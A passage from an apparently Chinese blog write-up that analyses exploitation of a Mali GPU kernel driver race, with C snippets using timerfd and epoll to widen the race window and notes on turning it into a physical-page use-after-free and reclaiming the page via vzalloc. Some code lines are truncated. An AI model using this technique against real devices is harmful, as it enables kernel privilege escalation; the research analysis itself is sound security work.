 为了扩大 race 的时间窗，作者利用 [timerfd 时钟中断技术](https://github.com)



```
  migrate_to_cpu(0);   //<------- pin this task to a cpu

  int tfd = timerfd_create(CLOCK_MONOTONIC, 0);   //<----- creates timerfd
  //Adds epoll watchers
  int epfds[NR_EPFDS];
  for (int i=0; i0);

  for (int i=0; istruct epoll_event ev = { .events = EPOLLIN };
    epoll_ctl(epfd[i], EPOLL_CTL_ADD, fd, &ev);
  }  
  
  timerfd_settime(tfd, TFD_TIMER_ABSTIME, ...);  //<----- schedule tfd to be available at a later time

  ioctl(mali_fd, KBASE_IOCTL_SOFT_EVENT_UPDATE,...); //<---- tfd becomes available and interrupts this ioctl  

```

大致思路就是在 kbase\_vmap\_prot 和 \*mapped\_evt 之间出发时钟中断，从而扩大时间窗，在两步之间释放 mapped\_evt 对应的物理页，就能够达到物理页 UAF 的能力。


​![image](https://img2023.cnblogs.com/blog/1454902/202411/1454902-20241113121528747-2047584698.png)​


mapped\_evt 在页内的偏移可控，写的内容为 0 或者 1，总结下来漏洞的原语是物理内存 UAF 写，写的值只能 0 或者 1



```
static inline struct kbase_mem_phy_alloc *kbase_alloc_create(
        struct kbase_context *kctx, size_t nr_pages,
        enum kbase_memory_type type, int group_id)
{
    ...
    size_t alloc_size = sizeof(*alloc) + sizeof(*alloc->pages) * nr_pages;
    ...
    /* Allocate based on the size to reduce internal fragmentation of vmem */
    if (alloc_size > KBASE_MEM_PHY_ALLOC_LARGE_THRESHOLD)
        alloc = vzalloc(alloc_size);
    else
        alloc = kzalloc(alloc_size, GFP_KERNEL);
    ...
}

```

kbase\_alloc\_create 分配 kbase\_mem\_phy\_alloc 时会调用 vzalloc 分配内存，vzalloc 的逻辑是根据大小计算分配的物理页数目，然后逐次调用 alloc\_page 分配物理页，利用这个逻辑可以比较快速的占位刚刚释放的物理页（slab cross cache 时间相对较长）

